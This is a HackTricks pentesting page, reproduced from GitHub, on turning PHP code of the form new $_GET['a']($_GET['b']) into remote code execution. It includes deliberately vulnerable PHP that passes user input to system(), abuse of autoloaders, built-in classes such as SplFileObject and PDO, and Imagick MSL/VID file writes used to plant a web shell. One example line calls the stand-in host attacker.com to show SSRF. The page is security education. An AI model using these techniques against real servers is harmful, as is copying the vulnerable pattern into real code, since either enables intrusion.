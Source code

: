 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Introduction

In the situation where you can create a new arbitrary object like `new $_GET["a"]($_GET["a"])`you might be able to obtain RCE, and [**this writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) exposes different ways to get RCE.

## RCE via Custom Classes or Autoloading

In the construction `new $a($b)`, the **variable `$a` stands for the class name** that the object will be created for, and the variable **`$b` stands for the first argument** that will be passed to the object’s constructor.

If `$a` and `$b` come from GET/POST, they can be **strings or string arrays**. If they come from **JSON** or elsewhere, they **might have other types**, such as object or boolean.

Let’s consider the following example:

```php
class App {
    function __construct ($cmd) {
        system($cmd);
    }
}

# Additionally, in PHP < 8.0 a constructor might be defined using the name of the class
class App2 {
    function App2 ($cmd) {
        system($cmd);
    }
}

# Vulnerable code
$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```

In this code, you can set  `$a`  to  `App`  or  `App2`  and  `$b`  to  `uname -a`. After this, the command  `uname -a`  will be executed.

When there are no such exploitable classes in your application, or you have the class needed in a separate file that isn’t included by the vulnerable code, you may take a look at autoloading functions.

**Autoloading functions** are set by registering callbacks via `spl_autoload_register` or by defining `__autoload`. They are called when an instance of an unknown class is trying to be created.

```php
# An example of an autoloading function
spl_autoload_register(function ($class_name) {
        include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
        include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();
```

Depending on the PHP version, and the code in the autoloading functions, some ways to get a Remote Code Execution via autoloading might exist.

## RCE via Built-In Classes

When you don’t have custom classes and autoloading, you can rely on **built-in PHP classes only**.

There are from 100 to 200 built-in PHP classes. The number of them depends on the PHP version and the extensions installed. All of built-in classes can be listed via the `get_declared_classes` function, together with the custom classes:

```php
var_dump(get_declared_classes());
```

Classes with useful constructors can be found via [the reflection API](https://www.php.net/manual/en/book.reflection.php).

Displaying constructors and their parameters using the reflation API: [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF)\


![](https://swarm.ptsecurity.com/wp-content/uploads/2022/07/2.png)

If you control **multiple constructor parameters and can call arbitrary methods** afterwards, there are many ways to get a Remote Code Execution. But if you can pass **only one parameter and don’t have any calls** to the created object, there is **almost nothing**.

I know of only three ways to get something from `new $a($b)`.

### **SSRF + Phar deserialization**

The `SplFileObject` class implements a constructor that allows connection to any local or remote URL:

```
new SplFileObject('http://attacker.com/');
```

This allows SSRF. Additionally, SSRFs in PHP < 8.0 could be turned into deserializations via techniques with the Phar protocol.

### **Exploiting PDOs**

The PDO class has another interesting constructor:

```php
new PDO("sqlite:/tmp/test.txt")
```

The `PDO` constructor accepts DSN strings, allowing us to **connect to any local or remote database** using **installed database extensions**. For example, the SQLite extension can create empty files.

### **SoapClient/SimpleXMLElement XXE**

In PHP ≤ 5.3.22 and ≤ 5.4.12, the constructor of SoapClient was **vulnerable to XXE**. The constructor of SimpleXMLElement was vulnerable to XXE as well, but it required libxml2 < 2.9.

## RCE via Imagick Extension

Checking the **dependencies** of the **project** you are trying to exploit you could find **new classes** that could be **abused to execute commands** creating a new object. In this case, **Imagick** was found to be useful for that purpose.

### VID parser

The VID parser allows to write arbitrary content in an arbitrary path inside the filesystem, which would allow an attacker to write a PHPshell in an accessible folder from the web page and get RCE.

![](<../../../.gitbook/assets/image (157) (3).png>)

#### VID Parser + FIle Upload

When a file is uploaded to PHP it's temporary stored in `/tmp/phpXXXXXX` . The VID parser of Imagick with the **msl** protocol allows to **specify wildcards in the file paths** (so the temporary uploaded file can be easily accessed) and **copy it to any arbitrary location**.\
This is another way to get arbitrary file writing inside the filesystem:

![](<../../../.gitbook/assets/image (159).png>)

### PHP Crash + Brute Force

The [**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) explained another way to get RCE by **uploading files with specific content** and making the **server crash before it deletes** that file and then **bruteforcing the name** of the temporary file until **Imagick executes arbitrary PHP code**.

However, apparently the **crash trick** discovered only **worked in an old version of ImageMagick**.

## References

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

- Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

- Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

- Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

- **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

